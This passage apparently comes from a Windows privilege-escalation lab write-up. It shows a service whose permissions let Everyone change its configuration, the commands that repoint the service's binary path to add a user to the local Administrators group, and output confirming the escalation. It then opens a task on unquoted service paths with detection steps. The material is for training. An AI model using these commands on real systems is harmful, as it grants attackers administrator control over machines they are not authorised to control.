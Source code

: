 ~~~
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW Everyone
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL

C:\Users\user>sc config daclsvc binpath= "net localgroup administrators user /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\user>sc start daclsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.



C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the compu
ter/domain

Members

-------------------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
~~~

# [Task 10] Service Escalation - Unquoted Service Paths

## #10.0 - Instructions

**Detection**

Windows VM

1. Open command prompt and type: `sc qc unquotedsvc`
2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.

**Exploitation**

Kali VM
